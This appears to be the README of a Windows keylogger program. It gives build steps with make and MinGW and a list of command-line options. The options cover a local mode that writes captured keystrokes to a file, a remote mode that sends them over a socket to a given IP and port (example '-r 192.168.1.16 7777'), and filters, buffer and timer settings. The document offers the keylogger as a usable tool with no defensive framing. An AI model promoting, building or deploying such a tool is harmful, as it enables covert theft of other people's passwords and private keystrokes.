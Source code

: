BUILD AND RUN FOR WINDOWS ONLY

# Installation

run command make

# Dependencies

[MinGW](http://www.mingw.org) for g++ and command make

# Usage

This program propose 2 type of keylogger

## Parameters/Options

### [REQUIERED] Please, choose one of them

        -l | --local : local keylogger, store data into file on this computer, require 1 argument (destination_file)
                Example : ./bin/main.exe -l D:\file.txt

        -r | --remote : remote keylogger, send data via socket, require 2 arguments (ip, port)
                Example : ./bin/main.exe -r 192.168.1.16 7777

### [OPTIONAL]

        -b | --buffer_size : Buffer size before store data (file or socket) (DEFAULT : 50)
                Example : ./bin/main.exe ... -b 100

        -c | --no_click : don't store click keys (based on ascii)
                Example : ./bin/main.exe ... -c

        -a | --alphabet_only : Store alphabet only, A-z (based on ascii)
                Example : ./bin/main.exe ... -a

        -C | --storage_format_character : Default storage format is int, use this option if you want to store as character
                Example : ./bin/main.exe ... -C
                
        -t | --timer : How much time (second) before stop  keylogger (DEFAULT : 999999999)
                Example : ./bin/main.exe ... -t 500

        -h | --help : Show this help
                Example : ./bin/main.exe -h

